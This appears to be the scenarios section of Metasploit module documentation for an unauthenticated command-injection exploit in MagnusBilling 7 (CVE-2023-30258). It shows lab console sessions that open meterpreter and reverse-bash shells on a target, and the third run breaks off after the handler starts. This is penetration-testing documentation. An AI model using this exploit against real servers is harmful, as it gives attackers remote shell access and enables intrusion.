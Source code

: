 ## Scenarios
###  MagnusBilling 7 on Debian 12.2 - PHP with payload php/meterpreter/reverse_tcp
```ShellSession
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set rhosts 192.168.201.34
rhosts => 192.168.201.34
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.1 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.34
[+] Deleted LfsCVIttNL.php
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.34:46230) at 2023-10-24 10:26:47 +0000

meterpreter > getuid
Server username: asterisk
meterpreter > sysinfo
Computer    : debian
OS          : Linux debian 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64
Meterpreter : php/linux
meterpreter >
```
###  MagnusBilling 7 on Debian 12.2 - Unix Command with payload cmd/unix/reverse_bash
```ShellSession
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set target 1
target => 1
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 2.1 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.34:46396) at 2023-10-24 17:09:45 +0000

uname -a
Linux debian 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
pwd
/var/www/html/mbilling/lib/icepay
```
###  MagnusBilling 7 on Debian 12.2 - Linux Dropper with payload linux/x64/meterpreter/reverse_tcp
```ShellSession
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set target 2
target => 2
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
```